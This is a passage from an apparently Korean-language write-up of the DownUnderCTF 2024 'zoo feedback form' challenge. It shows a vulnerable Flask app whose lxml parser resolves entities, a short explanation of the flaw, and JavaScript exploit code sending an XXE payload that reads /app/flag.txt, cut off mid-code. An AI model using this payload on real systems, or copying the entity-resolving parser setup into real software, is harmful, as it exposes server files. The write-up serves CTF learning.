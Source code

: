### Flag
DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}

<a id="zoo-feedback-form"></a>           
     
# zoo feedback form     
           
693 solved / 100 pts            
      
```python
from flask import Flask, request, render_template_string, render_template
from lxml import etree

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {% raw %}{{ error }}{% endraw %}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {% raw %}{{ feedback }}{% endraw %}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```
           
유저로부터 XML 데이터를 입력 받고 `feedback` 요소 값이 포함되어있으면 이를 보여준다. 
하지만, 태그에 대한 필터링이 존재하지 않아 XXE Injection이 가능하다. 
      
### Exploit Code     
```javascript
const xmlData = `<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
    <feedback>&xxe;</feedback>
</root>`;

fetch('https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/xml'
    },
    body: xmlData
}).then(response => response.text())
  .then(data => {
        console.log(data);
  })
  .catch(error => {
```